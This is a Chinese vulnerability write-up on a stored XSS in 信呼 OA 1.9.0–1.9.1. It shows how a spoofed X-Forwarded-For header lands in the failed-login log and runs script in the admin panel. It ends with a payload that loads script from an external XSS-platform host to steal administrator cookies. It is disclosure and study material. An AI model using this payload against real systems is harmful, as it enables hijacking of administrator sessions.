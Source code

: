 信呼oa 1.9.0-1.9.1 储存型xss
============================

一、漏洞简介
------------

二、漏洞影响
------------

信呼oa 1.9.0-1.9.1

三、复现过程
------------

首先搭建好之后跳转到一个登录页面

![1.png](/Users/aresx/Documents/VulWiki/.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId24.png)输入刚开始安装时设置的管理员**usname paword**然后点击登陆，然后抓包查看传参，然后去寻找登陆模块的源代码，根据传参的追踪，我们很快就能追踪到这个文件`webmain\model\loginMode.php`

然后我在这个登陆文件`loginMode.php`的第209行到215行发现了一些东西

![2.png](/Users/aresx/Documents/VulWiki/.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId25.png)

这里出现了一个`addlogs`函数，看名字应该是添加日志，在`logModel.php`中发现了他的定义

![3.png](/Users/aresx/Documents/VulWiki/.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId26.png)

这里是获取了信息然后给数组赋值，然后insert函数调用 在`mysql.php`

![4.png](/Users/aresx/Documents/VulWiki/.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId27.png)

很明显这里是插入语句的模板，这里就应该是登陆失败后，日志会记录下来前面看的到那些数组赋值的信息。

通过查看Mysql日志发现，登录失败他会记录我们的Ip，那么就简单了，我们是否可以尝试使用`X-Forwarded-For`来改变他的ip，然后我们使用

`X-Forwarded-For:127.0.0.1`X-F-F成功更换后台Ip

![5.png](/Users/aresx/Documents/VulWiki/.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId28.png)打个xss

![6.png](/Users/aresx/Documents/VulWiki/.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId29.png)后台成功弹框

![7.png](/Users/aresx/Documents/VulWiki/.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId30.png)

打开XSS平台

![8.png](/Users/aresx/Documents/VulWiki/.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId31.png)打一遍发现没用，获取不到cookie，F12看看咋回事

![9.png](/Users/aresx/Documents/VulWiki/.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId32.png)果然是xss代码出了问题构造xss代码，极限代码\--\>多加//防止被转入之前\--\>`<sCRiPt/SrC=////xs.sb/Jwdu>`![10.png](/Users/aresx/Documents/VulWiki/.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId33.png)

参考链接
--------

> https://xz.aliyun.com/t/7887
